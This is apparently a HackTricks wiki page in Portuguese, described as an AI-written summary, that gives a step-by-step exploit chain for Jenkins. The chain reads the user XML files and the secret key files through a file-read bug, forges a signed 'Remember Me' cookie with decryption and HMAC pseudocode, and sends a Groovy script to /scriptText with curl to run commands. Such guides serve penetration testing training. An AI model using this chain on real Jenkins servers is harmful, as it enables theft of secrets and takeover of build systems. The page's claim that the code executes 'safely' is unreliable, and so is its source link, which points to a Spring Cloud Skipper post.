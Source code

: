 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Neste post do blog é possível encontrar uma ótima maneira de transformar uma vulnerabilidade de Inclusão de Arquivo Local no Jenkins em RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Este é um resumo criado por IA da parte do post onde o craft de um cookie arbitrário é abusado para obter RCE abusando de uma leitura de arquivo local até que eu tenha tempo para criar um resumo por conta própria:

### Pré-requisitos do Ataque

* **Requisito de Funcionalidade:** "Lembre-se de mim" deve estar habilitado (configuração padrão).
* **Níveis de Acesso:** O atacante precisa de permissões Gerais/Leitura.
* **Acesso Secreto:** Capacidade de ler tanto conteúdo binário quanto textual de arquivos-chave.

### Processo Detalhado de Exploração

#### Passo 1: Coleta de Dados

**Recuperação de Informações do Usuário**

* Acesse a configuração do usuário e segredos de `$JENKINS_HOME/users/*.xml` para cada usuário para coletar:
* **Nome de usuário**
* **Semente do usuário**
* **Timestamp**
* **Hash da senha**

**Extração da Chave Secreta**

* Extraia chaves criptográficas usadas para assinar o cookie:
* **Chave Secreta:** `$JENKINS_HOME/secret.key`
* **Chave Mestra:** `$JENKINS_HOME/secrets/master.key`
* **Arquivo da Chave MAC:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Passo 2: Forjamento de Cookie

**Preparação do Token**

*   **Calcular o Tempo de Expiração do Token:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Adiciona uma hora ao tempo atual
```
{% endcode %}
*   **Concatenar Dados para o Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**Descriptografia da Chave MAC**

*   **Descriptografar o Arquivo da Chave MAC:**

```javascript
key = toAes128Key(masterKey)  // Converte a chave mestra para o formato de chave AES128
decrypted = AES.decrypt(macFile, key)  // Descriptografa o arquivo .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Cálculo da Assinatura**

*   **Calcular HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Calcula HMAC usando o token e a chave MAC
tokenSignature = bytesToHexString(mac)  // Converte o MAC para uma string hexadecimal
```

**Codificação do Cookie**

*   **Gerar Cookie Final:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Codifica os dados do cookie em Base64
```
{% endcode %}

#### Passo 3: Execução de Código

**Autenticação de Sessão**

* **Buscar Tokens CSRF e de Sessão:**
* Faça uma solicitação para `/crumbIssuer/api/json` para obter `Jenkins-Crumb`.
* Capture `JSESSIONID` da resposta, que será usado em conjunto com o cookie de lembrete.

**Solicitação de Execução de Comando**

*   **Enviar uma Solicitação POST com Script Groovy:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* O script Groovy pode ser usado para executar comandos em nível de sistema ou outras operações dentro do ambiente Jenkins.

O exemplo de comando curl fornecido demonstra como fazer uma solicitação ao Jenkins com os cabeçalhos e cookies necessários para executar código arbitrário de forma segura.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
